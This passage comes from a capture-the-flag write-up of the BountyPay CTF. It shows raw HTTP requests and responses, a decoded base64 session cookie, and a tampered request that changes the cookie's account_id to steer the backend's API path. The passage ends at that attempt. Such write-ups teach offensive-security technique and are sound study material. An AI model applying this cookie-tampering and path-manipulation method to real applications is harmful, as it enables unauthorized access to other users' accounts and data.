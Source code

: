 Request:

```
GET /statements?month=01&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 14:13:03 GMT
Content-Type: application/json
Connection: close
Content-Length: 177

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/statements?month=01&year=2020","data":"{\"description\":\"Transactions for 2020-01\",\"transactions\":[]}"}
```

The `url` returned in the response's JSON was interesting. It looks like the backend is calling an API, using some kind of account ID to construct the path. I tried to call that API directly but this resulted in a **401 Unauthorized**, telling me a token was missing. We'll come back to that later, but right now my only option was to leverage the call made by the server. What if I could control that ID? The user cookie starts with `ey` which is typical of base64 encoded JSON, maybe there is something interesting there. Here is the decoded cookie:

```json
{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}
```

The `account_id` field in the decoded cookie matched the account ID used to construct the API URL, so I gave it a try an modified the `account_id` field. Here again, Hackvector is a really useful Burp extension and saves a lot of back and forth between the Repeater and the Decoder.

Request:

```
GET /statements?month=01&year=2019 HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Cookie: token=<@base64_1>{"account_id":"F8gHiqSdpK#","hash":"de235bffd23df6995ad4e0930baac1a2"}<@/base64_1>
```
